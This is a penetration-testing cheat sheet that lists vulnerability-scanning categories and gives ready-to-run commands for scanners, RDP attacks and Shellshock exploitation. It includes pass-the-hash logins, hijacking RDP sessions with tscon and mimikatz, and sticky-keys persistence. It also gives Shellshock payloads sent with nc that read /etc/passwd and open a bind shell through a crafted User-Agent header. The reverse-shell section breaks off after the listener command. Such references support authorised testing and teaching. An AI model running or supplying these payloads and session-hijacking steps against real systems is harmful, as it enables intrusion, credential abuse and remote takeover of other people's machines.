 # Vulnerability

### Vulnerability scanning
Includes:
* Application 
* Configuration
* Network 
* operating system 
* Network port based
* Network services based
* Banner grabbing
* Databases and Framework Modules
* Common/default Passwords
* Hardening 
* Misconfigurations
* Directory Listing/Brute Forcing
* Web Server Version/Vulnerability Identification
* Method (GET, POST, PUT, DELETE, OPTIONS)
* WebDav
* TRACE / TRACK
* VPN (Fingerprinting, Authentication)
* Voice Network Scanners
* Manual Direct Connections
* Obfuscated (Multiple Exit Nodes, IDS Evasion)
* Metadata Analysis
* Traffic Monitoring
* Citrix (Enumeration)
* DNS
* WEB
* Mail
* Identifying potential avenues/vectors

# Some example of tools you can use

## Nettacker (multi-scan)
Start it with docker-compose
```
docker-compose up -d && docker exec -it nettacker_nettacker_1 /bin/bash
```
Run your scan
```
python nettacker.py -i www.example.com -s -m port_scan
```
Access the result 
```
https://localhost:5000/
or
https://nettacker-api.z3r0d4y.com:5000/  (pointed to your localhost)
or
Default results path is .data/results
```

## Joomscan (joomla)
Do default checks
```
perl joomscan.pl -u www.example.com
```
Enumerate installed components
```
perl joomscan.pl -u www.example.com --ec
```

## Fuxploider (upload files)
Basic example
```
python3 fuxploider.py --url https://awesomeFileUploadService.com --not-regex "wrong file type"
```

## RDPChecker (Remote Desktop Protocol)
Test one host
```
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t 10.0.0.1
```
Test several hosts
```
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t 10.0.0.1,10.0.2.2,192.168.1.25,172.26.5.15
```
Test several hosts using file
``` 
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t hosts.txt
```
NMAP scritps
```
nmap -v --script rdp-enum-encryption -p 3389 -T4 IP
nmap -v --script rdp-vuln-ms12-020 -p 3389 -T4 IP
nmap -v --script rdp-ntlm-info -p 3389 -T4 IP
```
Connect with known creds
```
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
```
rdp_check.py from impacket let you check if some credentials are valid for a RDP service
```
rdp_check <domain>/<name>:<password>@<IP>
```
You can launch a new cmd to wich new credentials will be attached so, every interaction this new shell makes with the network will use the new credentials
```
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" 
#The password will be prompted
```
With Administrator rights you can access any opened RDP session by any user without need to know the password of the owner.
```
	# Get openned sessions:
	query use

	#Access to the selected session
	tscon <ID> /dest:<SESSIONNAME>

# Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

# Important: When you access an active RDP sessions you will kickoff the user that was using it.
```
  *You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines).*

You could also use mimikatz to do this
```
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
Sticky-keys & Utilman
* Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime.

Adding User to RDP group
```
net localgroup "Remote Desktop Users" UserLoginName /add
```

## Tulpar
whois checker
```
python tulpar.py whois [website]
```
SQLi flaws
```
python tulpar.py sql [website]
```
fuzzing injection
```
python tulpar.py fuzzing [website]
```
XSS injection
```
python tulpar.py xss [website]
```

## Silver
Scan host
```
python3 silver.py 127.0.0.1
python3 silver.py 127.0.0.1/22
python3 silver.py 127.0.0.1,127.0.0.2,127.0.0.3
```
Use Shodan
```
python3 silver.py 127.0.0.1 --shodan
```
Scan top ~1000 ports
```
python3 silver.py 127.0.0.1 --quick
```
Scan specific ports
```
python3 silver.py 127.0.0.1 -p80,443
```
Scan hosts from a file
```
python3 silver.py -i /path/to/targets.txt
```
Save JSON output to a file (Default: result-<ip_here>.json)
```
python3 silver.py 127.0.0.1 -o my_target.json
```
Set max number of parallel nmap instances (Default: number_of_cores)
```
python3 silver.py -i /path/to/targets.txt -t 4
```
Choose packets to be sent per seconds (Default: 10000)
```
python3 silver.py 127.0.0.1 --rate 1000
```

## Shellshock with Shocker

Usage
```
./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
```

cat file (view file contents)
```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

Shell Shock run bind shell
```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80 
```

Shell Shock reverse Shell
```
nc -l -p 443
```
